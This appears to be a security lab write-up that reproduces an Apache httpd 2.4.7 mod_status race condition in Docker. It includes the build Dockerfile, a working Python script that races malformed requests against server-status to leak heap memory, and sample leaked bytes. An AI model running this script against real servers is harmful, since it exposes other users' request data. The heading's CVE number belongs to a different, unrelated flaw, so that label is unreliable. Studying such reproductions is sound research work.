


# CVE-2017-12615

## Description 
Race condition in the mod_status module in the Apache HTTP Server before 2.4.10 allows remote attackers to cause a denial of service (heap-based buffer overflow), or possibly obtain sensitive credential information or execute arbitrary code, via a crafted request that triggers improper scoreboard handling within the status_handler function in modules/generators/mod_status.c and the lua_ap_scoreboard_worker function in modules/lua/lua_request.c.

## Bug overview


## Environment setup
We are running the service (Apache 2.4.7) Docker Container with base OS Ubuntu 16.04. Apache httpd is compiled with MPM worker 
```
./configure --enable-mods-shared=reallyall --with-included-apr
```

The Dockerfile describes the environment deployed
```dockerfile
FROM ubuntu:16.04
RUN apt-get update
# some basic tools and the required libraries used to build the server
RUN apt-get -y install unzip wget git less subversion python libtool-bin libtool autoconf build-essential vim libxml2 libexpat1-dev libpcre3-dev
# apache version 2.4.7
RUN wget https://github.com/apache/httpd/archive/refs/tags/2.4.7.zip
RUN mkdir /apache
RUN unzip 2.4.7.zip -d /apache
WORKDIR /apache/httpd-2.4.7
# installing apache portable runtime libarary
RUN svn co http://svn.apache.org/repos/asf/apr/apr/trunk srclib/apr
RUN ./buildconf
RUN ./configure --enable-mods-shared=reallyall --with-included-apr
RUN make
RUN make install
# copying the apache configuration
COPY ./apache2 /etc/apache2/
COPY ./poc.py .
# Setting the server status and extended status
RUN echo 'SetHandler server-status\nExtendedStatus On' >> /usr/local/apache2/conf/httpd.conf
EXPOSE 80
```

After setting the server, everything looks like  



As we can see, the server logs the requests in the format  
`Server x-x (xxx): x|x|x [status] ... IP {REQUEST} [IP]` 
All we are interested in is the `{REQUEST}` field inside the curly brackets. We can safely ignore all other html tags and other fields in the response from the server while exploitation. 


## Exploit
```python
#!/usr/bin/env python
import httplib
import sys
import threading
import subprocess
import random
import re

INTERESTING = re.compile('\{(.*)\}')
# everything inside curly brackets {} as it would be the
# content we would get back from the scoreboard because of
# its log format

def find_leaks(string):
    leaks = []
    match = re.findall(INTERESTING,string)
    for leak in match:
        # if some string which is not fully our spam AAAA
        # or if it contaions notables its our original request
        if not leak or 'AAAA' in leak or 'notables' in leak:
            continue
        else:
            leaks.append(leak)
    if leaks:
        print(leaks)

def send_request(method, url):
    try:
        c = httplib.HTTPConnection('127.0.0.1', 80)
        c.request(method,url);
        if "foo" in url:
            find_leaks(c.getresponse().read())
        c.close()
    except Exception as e:
        print(e)
        pass

def mod_status_thread():
    while True:
        send_request("GET", "/foo?notables")

def requests():
    """
    Spamming ill-requests till we encounter a race condition
    """
    evil = ''.join('A' for i in range(random.randint(0, 1024)))
    while True:
        send_request(evil, evil)

# thread for mod status 
threading.Thread(target=mod_status_thread).start()
# 
threading.Thread(target=requests).start()
```


## Info Leak
After running the exploit for a while (after encountring a couple of race conditions), we gather a couple of info leak samples which are either some memory location (by the look of it 0x7fecXXXX) or some other memory available at the heap
```
['A\xb7\x04\x9ce\x7f']
['A4']
['A']
['A\xfc\x01pe\x7f']
['A2]`[26/Mar/2021:01:00:22 +0000]']
['A2:80']
['A\x9b\x01te\x7f']
['A________________                                       _________________________                                       ................................                                .........................                                       .........................
                          \x18']
```
Hence, we are in fact able to leak out information from the heap, which may in turn contain other unintentional information. However, the race condition is quite hard and rare to trigger, we were not able to develop and trigger an RCE, which is theoretically possible but significantly more invloved than standard binary exploitation. Moreover DOS might also not be demonstratable under the given setup without heavy traffic and the server wont crash since as soon as a thread ends up in race condition and is killed, apache server churns up a new thread in place of it. 
